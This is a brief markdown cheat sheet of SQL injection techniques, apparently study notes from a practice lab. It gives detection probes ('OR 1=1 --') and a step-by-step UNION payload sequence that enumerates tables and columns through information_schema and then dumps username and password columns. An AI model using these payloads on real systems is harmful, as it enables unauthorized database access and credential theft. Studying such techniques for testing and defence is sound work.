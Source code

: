# 1. Detecting SQLi

***
## i) SQLi is Triggered using *'* on the Endpoints
## ii) Using Boolean Conditions *'OR 1=1 --*
## iii) Some *SQLi* specific syntax
## iv) Payloads designed to be Triggered 


***




# 2. UNION Attacks on URLS
## *Trigerring Errors in Noon Oracle Databases*

***
## Trigger SQLi :: '
## Find table columns :: 'UNION+SELECT+NULL,NULL--
## Find columns datatype :: 'UNION+SELECT+NULL,'abcd'--
## Find tables in DB :: 'UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
## Find columns in a Table :: 'UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_lfwecl'--
## Dump Contents of a column :: 'UNION+SELECT+username_rgqddv,+password_psxjjf+FROM+users_lfwecl--

***